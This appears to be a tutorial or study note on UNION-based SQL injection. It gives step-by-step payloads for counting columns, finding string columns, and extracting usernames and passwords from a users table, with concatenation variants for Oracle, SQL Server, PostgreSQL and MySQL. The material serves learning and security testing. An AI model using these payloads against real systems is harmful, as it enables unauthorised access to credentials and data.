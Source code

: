 #### Determining the number of columns
- `' ORDER BY 1-- ` -> `' ORDER BY 2-- ` .. (`--` is followed by a space)
- `' UNION SELECT NULL, NULL -- ` -> 3nulls,...(use `from dual` for Oracle)
##### Elaborated:
```sql
select where category='gifts' order by 1-- # followed by ' order by 2-- and so on .
-- Based on the differences in the responses, you can identify the number of columns
-- You may get an output similar to : "The order by position number 3 is out of range of the number of items"
select where cat='gifts' UNION SELECT NULL -- # followed by ' UNION select NULL,NULL -- and so on.
```
> On mysql double dashes must be followed by spaces
{: .prompt-info}
The number of columns must match between the two outcomes of union. So, it'd give an error similar to:
`All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.`

(Otherwise, it might simply provide incorrect responses or it might not work.)

> On Oracle, the `select` query must use the from keyword. Use the table Dual for this
{: .prompt-info }
```sql
select ...'gifts' UNION selct NULL,NULL from DUAL --
```

#### Finding columns with useful datatype in a SQLi UNION attack
We usually search for string data:
Say you have 3 columns, Try:
- `' UNION SELECT 'a',NULL,NULL--` -> 
- `' UNION SELECT NULL,'a',NULL--` -> 
- `' UNION SELECT NULL,NULL,'a'--`

If it is not a string, a possible error will look like this: `Conversion failed when converting the varchar value 'a' to data type int.`

#### Retrieving interesting data
- Say you realized that the query returns two columns with string data using the where clause and the database contains a table called users with columns: username, and password
`' UNION SELECT username, password from users-- `

How to find the tables of interest: [Examining the db](#examining-the-db)

##### Retrieving multiple values within a single column
Say, in the above example, if the query returns just one column, use the following to retrieve both username and password:
- Oracle: `' UNION SELECT username || '~' || password FROM users--`
	|| is a string concatenation operator in Oracle. (so, concatenate username with ~ and concatenate the result with password)
- Microsoft: `' UNION SELECT username + '~' + password FROM users-- `
	`+` for concatenation
- PostgreSQL: `||` or space
- MySQL: `CONCAT('a','b','c')`
